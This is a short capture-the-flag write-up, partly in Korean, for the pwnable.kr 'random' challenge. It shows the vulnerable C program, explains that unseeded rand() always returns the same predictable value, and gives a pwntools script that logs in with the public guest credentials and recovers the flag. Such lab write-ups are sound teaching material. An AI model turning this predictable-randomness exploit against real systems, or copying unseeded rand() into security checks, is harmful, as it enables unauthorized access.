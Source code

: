# [pwnable.kr] random

> Daddy, teach me how to use random value in programming!
>
> ssh random@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Bug

```c
/* random.c */

#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

`rand()`는 랜덤 값을 반환하긴 하지만, 실행할 때마다 랜덤 값을 생성하는 것이 아니라 미리 정해진 값을 반환하는 식으로 동작한다. 따라서 `srand()`와 `rand()`로 생성하는 랜덤 값은 무조건 재현할 수 있다.

## Exploit

```python
# ex.py

from pwn import *
from ctypes import *

p = ssh("random", "pwnable.kr", 2222, "guest").process("/home/random/random")

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
random = libc.rand()
key = random ^ 0xDEADBEEF
p.sendline(str(key).encode())

p.interactive()
```

![image](https://github.com/user-attachments/assets/1aa9d95c-106f-4968-9987-30abf4961f3b)